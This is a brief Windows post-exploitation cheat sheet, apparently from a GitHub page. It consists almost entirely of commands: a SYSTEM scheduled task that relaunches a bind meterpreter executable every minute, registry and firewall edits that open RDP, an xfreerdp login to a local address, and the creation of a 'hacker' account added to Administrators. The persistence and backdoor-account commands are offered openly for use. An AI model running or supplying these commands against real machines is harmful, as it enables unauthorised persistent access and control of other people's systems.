 ## Creating persistence tasks

Persistence via schedule tasks:

```shell
schtasks /create /ru SYSTEM /sc MINUTE /MO 1 /tn megapwn /tr "C:\WINDOWS\system32\55555_bind_meterpreter.exe"
```

## Enabling RDP

Enabling RDP service and adding a firewall rule:

```shell
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
netsh advfirewall firewall set rule group="Remotedesktop" new enable=yes
```

*You may also need to disable CredSSP on the remote side.*

Connecting from a Linux computer
```bash
xfreerdp /u:HackerAusRussland /v:192.168.178.43:3389
```

Creating a new user:

```shell
net user hacker hacker /add
```

Adding a user to a group:

```shell
net localgroup Administrators hacker /add
```